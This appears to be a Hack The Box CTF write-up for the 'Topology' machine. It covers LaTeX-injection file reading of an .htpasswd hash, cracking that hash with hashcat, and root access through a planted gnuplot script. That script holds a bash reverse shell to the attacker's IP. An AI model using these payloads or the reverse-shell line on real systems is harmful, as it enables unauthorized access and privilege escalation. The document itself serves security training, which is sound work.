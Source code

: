 ```yaml
---
title: "Hack The Box - Topology [Easy]"
category: ctf-writeup
layout: post
---
```


I've started with simple machine enumeration

```bash
$ nmap -sV 10.10.11.217
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

Then I went to `topology.htb` to check out the website, noticed the possible users (according to the email that is formatted like `lklein@topology.htb`). I've enumerated possible users:

```
lklein
vdaisley
dabrahams
```

I went on to figure out what is located at http://latex.topology.htb/equation.php which was the only link on the website. There I found out some LaTeX to PNG convertor. I've figured out that there must be some trickery with this so I went my way to research the topic. 

I've found out the following:
- https://0day.work/hacking-with-latex/
- https://salmonsec.com/cheatsheets/exploitation/latex_injection

These two links, helped me to figure out that I had an LFI vulnerability at hand. Upon searching different files such as `/etc/passwd, /proc/self/cmdline, /proc/self/environ` and so on, I've figured out that I must be missing something. I began to explore what other subdomains (because there is `latex.topology.htb` I thought there would be more) were on the webserver using `ffuf`.

```bash
$ ffuf -w $commontxt -u http://topology.htb/ -H "Host: FUZZ.topology.htb" -r
```

Which yielded the following domains:

- `dev`
- `stats`

I've browsed through those and on the stats there were simple plots about the current usage of the system and that's it. But on the `dev` subdomain there was a Basic Auth in place which I then figured out that I can read the `.htpasswd` with the LFI vulnerability in the `latex.topology.htb` input form. 

I've tried a couple of times to read the file, but there were unsuccessful, and I went my way to figure out why and what's going on. 

I honestly didn't know how can I read the file and I turned out to some help, which I then understood that I can use the `LaTeX/Source Code Listings` which also can read a file with `\lstinputlisting{/var/www/dev/.htpasswd}`, however the website just resulted in no image (possible error) using just this command. 

Here comes this post to the rescue https://tex.stackexchange.com/questions/410863/what-are-the-differences-between-and

Since the website is about math, we can use the `inline math delimiters` that are `$ and $` which can turn my payload from `\lstinputlisting{/var/www/dev/.htpasswd}` to `$\lstinputlisting{/var/www/dev/.htpasswd}$` which resulted into getting the basic auth hash.

```
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTZ0
```

Using `hashcat` we can extract the password

```
$ hashcat -m 1600 crack.txt /usr/share/wordlists/rockyou.txt
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTZ0:goDoItOnYourOwn
```

With that, I tried the users that I've enumerated earlier and the user `vdaisley` worked out, so I went to log in with SSH and got the user flag.


# Root

The root was pretty easy, first we can see which directories are writable:

```
$ find / -type d -writable 2>/dev/null
...
/opt/gnuplot
...
```

This directory looked suspicious, I've fired up `pspy` to checkout what is going on and I got this:

![rwojak](/htb/htb-topology-pspyrun.png)

So we are finding `*.plt` files in this directory, and then we are executing `gnuplot` as root. Using this [article,](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/#command-execution) I've crafted a `test.plt` file with the contents of:

```bash
vdaisley@topology:/opt/gnuplot$ cat ~/test.plt 
system "bash -c 'bash -i >& /dev/tcp/10.10.16.xx/4444 0>&1'"
```

I've copied the file to the `/opt/gnuplot` directory and I've waited to get a remote connection which I got in about a minute. With that I rooted the machine.

